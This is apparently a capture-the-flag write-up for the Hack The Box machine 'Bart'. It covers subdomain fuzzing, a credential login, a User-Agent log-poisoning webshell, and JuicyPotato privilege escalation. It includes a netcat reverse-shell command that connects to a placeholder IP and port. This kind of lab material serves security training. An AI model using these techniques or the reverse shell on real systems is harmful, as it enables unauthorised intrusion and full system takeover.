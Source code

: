 # Bart

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (19) (6).png" alt=""><figcaption></figcaption></figure>

Only one port was available. We had to add `forum.bart.htb` to our `/etc/hosts` file to access the website.

### Web Enum

The website was a standard company page:

<figure><img src="../../../.gitbook/assets/image (5) (4) (1).png" alt=""><figcaption></figcaption></figure>

I checked the page source, and found a unique bit here. Seems like there was a user that was not shown for some reason.

<figure><img src="../../../.gitbook/assets/image (50) (2).png" alt=""><figcaption></figcaption></figure>

harvey is the user we probably need to access.&#x20;

We can fuzz subdomains using the `bart.htb` domain to find more places to visit.

<figure><img src="../../../.gitbook/assets/image (32) (3).png" alt=""><figcaption></figcaption></figure>

### monitor.bart.htb

We can visit this to see that it's running PHP Server Monitor v3.2.1.

<figure><img src="../../../.gitbook/assets/image (42) (3).png" alt=""><figcaption></figcaption></figure>

`harvey:potter` works as credentials to let us log in. There, we would view an internal chat instance.&#x20;

<figure><img src="../../../.gitbook/assets/image (52) (2).png" alt=""><figcaption></figcaption></figure>

I looked around and found the settings for this internal chat service, and found another subdomain.

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

We can head to that domain to find another application running.

### Simple Chat Log Poisoning

There's a login page within the new page. Our previous credentials of `harvey:potter` do not work here.

<figure><img src="../../../.gitbook/assets/image (21) (5).png" alt=""><figcaption></figcaption></figure>

However, what's interesting was the URL of the website, at `http://internal-01.bart.htb/simple_chat/login_form.php`. Googling around, we can find the exact simple\_chat PHP application being used as it is a open-source project.&#x20;

{% embed url="https://github.com/magkopian/php-ajax-simple-chat'" %}

Within the source code, we can view the register.php to see how to register a new user.

<figure><img src="../../../.gitbook/assets/image (23) (5).png" alt=""><figcaption></figcaption></figure>

All we need to do is sent a POST request with the `uname` and `passwd` parameters to register.

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

Afterwards, I logged into the server.

<figure><img src="../../../.gitbook/assets/image (49) (2).png" alt=""><figcaption></figcaption></figure>

Within this page, there's the ability to view the Log files, and when we do, we would first get a pop-up similar to xss with 1, and have this GET request be sent to the machine.

<figure><img src="../../../.gitbook/assets/image (14) (3).png" alt=""><figcaption></figcaption></figure>

When viewing this log, I noticed that the User-Agent was copied from my machine.

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

I played around with this and altered my `User-Agent` field to something else, and it was still copied over.

<figure><img src="../../../.gitbook/assets/image (51) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (34) (5).png" alt=""><figcaption></figcaption></figure>

With this, because it is a PHP page, I attempted to write a webshell within the HTTP header and also change the page to a PHP page by altering the `filename` parameter.

<figure><img src="../../../.gitbook/assets/image (17) (6).png" alt=""><figcaption></figcaption></figure>

With this, we can easily gain a reverse shell into the machine using Invoke-PowerShellTcp, as other shells don't work out well.

<figure><img src="../../../.gitbook/assets/image (40) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### JuicyPotato

When checking our privileges, we notice we have the SeImpersonatePrivilege enabled.

<figure><img src="../../../.gitbook/assets/image (47) (2).png" alt=""><figcaption></figcaption></figure>

Checking `systeminfo`, we also find that a vulnerable version of Windows was running with no hotfixes.

<figure><img src="../../../.gitbook/assets/image (31) (3).png" alt=""><figcaption></figcaption></figure>

We can run the JuicyPotato exploit to get a reverse shell as root. First, we need to create a .bat file that would be run. I used nc.exe to run my shell:

```
C:\Temp\nc.exe -e cmd.exe <IP> <PORT>
```

Then, we can get JuicyPotato on the machine and run it with a CLSID. We can find one from this page:

{% embed url="http://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/" %}

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

Afterwards, we would catch a shell as the administrator.

<figure><img src="../../../.gitbook/assets/image (9) (3).png" alt=""><figcaption></figcaption></figure>
